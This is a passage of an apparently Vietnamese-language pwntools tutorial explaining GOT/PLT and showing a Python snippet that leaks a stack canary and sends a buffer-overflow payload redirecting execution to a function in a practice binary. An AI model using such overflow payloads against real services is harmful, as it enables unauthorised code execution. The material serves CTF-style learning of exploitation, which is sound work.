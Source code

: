 ví dụ: **`next(a, b, c)`**<br>
-> lần chạy thứ nhất output =` a`;<br>
-> lần chạy thứ hai output = `b`;<br>
-> lần chạy thứ ba output = `c`; <br>
* **E**. **GOT() và PLT()**

Global Offset Table and Procedure Linkage Table<br>
**Mục đích:** do các List Dynamic libraries Dependencies (được tham chiếu) tới các tệp nhị phân và cho ta thấy những thư viện libc và đường dẫn của chúng. Libc có thể được cập nhật mà ko ảnh hưởng đến tệp nhị phân. Suy ra địa chỉ của libc cũng có thể khác nhau giữa các phiên bản<br>
![image.png](https://images.viblo.asia/6ec78411-9d5e-4b43-8c38-55e9af9a40ae.png)

Vậy nếu chúng thay đổi như vậy mà ta muốn biết chính xác địa chỉ đó để call thì sinh ra 2 khái niệm là GOT và PLT.<br>
+GOT sẽ nhận nhiệm vụ chứa địa chỉ của libc được liên kết với tệp nhị phân<br>
+PLT sử dụng các hiệu số được lưu trữ trong GOT để quyết định vị trí cuối cùng thực tế của hàm

**2**. Finally, to communicate **interact** with a program, you can use these code snippets:
```html
>>> p = process('./introduction') #use this one to test locally
>>> p = remote('netcat.address', [port num]) #use this one to connect over netcat
>>> p.sendline('String to send')
>>> output_of_program = p.recv(256)
>>> output_line = p.recvline()
>>> output_until = p.recvuntil('input: ')
>>> p.interactive() #allow user to input to program directly
```
**3.** Bây giờ, để tổng hợp tất cả thông tin này lại với nhau, bạn sẽ cần phải viết một cái gì đó như thế này:
```python
>>> from pwn import *
>>> e = ELF('./introduction')
>>> p = process(e.path)
>>> p.recvuntil('later): ')
>>> canary = int(p.recvline(keepends = False), 16) #keepends = False bỏ ký tự xuống dòng
>>> p.sendline(b'a' * x + p64(canary) + b'a' * y + p64(e.sym['fmtstr'] + 1)) #x, y là ẩn số tùy vào chương trình.
```
Trong sự cố cụ thể này, hãy lưu ý rằng bạn cần thêm '+ 1' fmtstr adr, mà thông thường bạn sẽ không cần.<br>
Điều này là do các cuộc gọi scanf trong tương lai cần một giá trị rbp hợp lệ và điều này sẽ khắc phục nó một cách kỳ diệu.<br>
Ngoài ra, bạn có thể thấy các lệnh sau hữu ích, mặc dù không cần thiết cho việc khai thác:
```
>>> log.info('Func này ghi thông tin vào thiết bị đầu cuối của bạn, ví dụ canary: ' + hex(canary))
>>> gdb.attach(p) #open
* log.info(text)
>>>log.info('Pham Trung Kien')
[*] Pham Trung Kien
* log.success(text)
>>>log.success('ASLR bypassed!')
[*] ASLR bypassed
* log.error(text)
>>>log.error('The payload is too long')
[*] The payload ... long
```
một thiết bị đầu cuối với gdb chứa trạng thái hiện tại của chương trình của bạn
Bạn có thể đọc về nó tại [đây](https://docs.pwntools.com/en/stable/rop/rop.html)
